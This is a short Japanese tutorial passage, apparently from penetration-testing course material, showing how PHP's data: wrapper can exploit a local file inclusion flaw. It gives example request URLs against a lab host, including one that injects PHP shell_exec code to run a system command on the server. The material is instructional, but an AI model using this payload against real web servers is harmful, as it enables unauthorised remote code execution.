


>PHP
の提供している プロトコルラッパー の中には、 ディレクトリ ・ トラバーサルやロー
カル ・ ファイルインクルードの脆弱性を エクスプロイト するために使用できる ものがあり
ます 。これらのフィルタは、 **LFI の脆弱性を利用**して PHP コードを 挿入 しようとする際の
柔軟性を高めてくれます。   

>それでは、データラッパーの使い方を詳しく紹介します。   
>最初に「 data: 」 と入力し、続いてデータの種類を入力します。ここでは、プレーンテキスト で 「 text/plain 」とします。続いて、 カンマ でコンテンツの始まりを示します。この場合は、 「 hello world 」 です。まとめる
と、「 data:text/plain,hello world 」となります。
```
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```


PHP コードに置き換えて、実行されるかどうかを確認してみましょう。ここでは、 shell_exec を使っ て、 PHP タグで囲んだ dir コマンドを実行します。 
```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

